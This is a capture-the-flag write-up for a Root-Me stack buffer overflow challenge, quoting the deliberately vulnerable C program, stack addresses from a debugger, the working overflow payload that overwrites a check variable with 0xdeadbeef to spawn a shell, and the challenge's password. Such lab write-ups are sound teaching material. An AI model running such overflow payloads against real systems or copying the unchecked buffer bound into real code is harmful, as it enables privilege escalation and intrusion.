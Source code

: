 # ELF x86 - Stack buffer overflow basic 1
- Point: 5pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  25 March 2015
- Level: Very Easy <br><br>
![image](https://user-images.githubusercontent.com/48288606/141502028-c005e26c-0784-400c-a79d-14c12a79e000.png)
## Write-up:
Look at the code:
```
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
- If we can change the change check's value from **"0x04030201"** to **"0xdeadbeef"**, we can pass the challenge by opening the shell. <br>
- Var **check** is declared first, after **buf**; so **check** is nearer to the top of the stack than **buf**, which makes it able to override the value of **check**.<br>
- Disassembling the main function and we set break point at the **fgets function line**. Then run the program

![image](https://user-images.githubusercontent.com/48288606/146743588-ed79be7a-e9f6-48b8-9aa2-a14343cbf808.png)

- Try inputing `aaaa` and watch that value's address.

![image](https://user-images.githubusercontent.com/48288606/146744069-794864a9-8906-4e64-a346-9bb1abda2bcb.png)

- Here, we examine the address of **aaaa** and in range 20 adjacent addressand  we see that our **check** 's value is at **0xbffffb0c**. And our input **aaaa** is at **0xbffffae4**. So we need the calculate the distance just write the desired value to the proper position. 

![image](https://user-images.githubusercontent.com/48288606/146745301-7402ef93-29aa-4605-a747-d7eac50acbd0.png)

### Solution:
Fill the first 40 bytes of **buf** with arbitrary character, then with the satisfied value **"0xdeadbeef"**. <br>
Command: `python -c "print('a'*40 +'\xef\xbe\xad\xde')"| ./ch13` <br>
But as we see, it just open the shell and close it because there is no input. [Read here ?](https://www.root-me.org/?page=forum&id_thread=10116)<br>
As suggested, the final payload: `(python -c "print('a'*40 +'\xef\xbe\xad\xde')";cat) | ./ch13 `<br>
Then just need to read the `.passwd` file.

Pass: 1w4ntm0r3pr0np1s

